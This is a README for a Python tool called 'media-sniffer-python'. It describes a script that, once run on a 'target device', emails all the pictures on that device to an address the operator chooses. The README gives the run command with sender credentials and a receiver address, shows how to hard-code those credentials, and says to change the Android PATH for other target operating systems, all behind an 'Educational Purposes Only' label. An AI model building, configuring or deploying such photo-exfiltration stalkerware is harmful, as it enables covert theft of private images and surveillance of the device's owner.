 # media-sniffer-python
## Educational Purposes Only

This script sends all the pics to your desired email address from target device.
But you need to execute it in target device.

To run it for test purpose

```
python main.py sender@mail sender_password receiver@mail
```
<br/>

Or you can also keep the credentials directly in the script. There are 3 variables. Update them.
```
sender = "sender email"
password = "your password"
receiver = "receiver email"
```
Check receiver's mail inbox. If not found please check the spam folder also.

I have used the path for Android devices. Change the value of **PATH** variable as your **Target OS**.
